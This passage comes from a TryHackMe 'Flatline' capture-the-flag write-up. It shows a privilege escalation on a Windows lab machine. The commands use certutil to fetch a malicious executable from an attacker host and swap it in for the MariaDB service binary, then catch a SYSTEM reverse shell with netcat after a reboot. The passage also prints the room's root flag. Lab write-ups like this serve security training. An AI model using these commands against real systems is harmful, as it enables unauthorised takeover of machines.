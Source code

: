 ```tsx
C:\projects\openclinic\mariadb\bin>certutil -urlcache -split -f http://10.8.97.213:8080/mysqld_evil.exe mysqld.exe
certutil -urlcache -split -f http://10.8.97.213:8080/mysqld_evil.exe mysqld.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```

Verify that the malicious file has been upload successfully by focus on the size of it!

****************Original****************

```tsx
23/03/2021  00:47            26,600 mysqld.exe
```

******************Malicious******************

```tsx
03/07/2023  10:28            73,802 mysqld.exe
```

Start the `Netcat Listener` on the local machine on the selected port in `mysqld_evil.exe` file and restart the target machine by command `shutdown /r`

```tsx
C:\projects\openclinic\mariadb\bin>whoami
whoami
win-eom4pk0578n\nekrotic

C:\projects\openclinic\mariadb\bin>shutdown /r
                                                                                                                   
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$
```

Then wait for a second and the current shell would be disconnected → Look at the `Netcat` terminal and verify that the connection is succeed

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ nc -lvnp 4242        
listening on [any] 4242 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.57.92] 49671
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Navigate to `Nekrotic\Desktop` and get the root flag

```tsx
C:\Windows\system32>cd ..\..\Users\Nekrotic\Desktop
C:\Users\Nekrotic\Desktop>more root.txt
more root.txt
THM{8c8bc5558f0f3f8060d00ca231a9fb5e}
```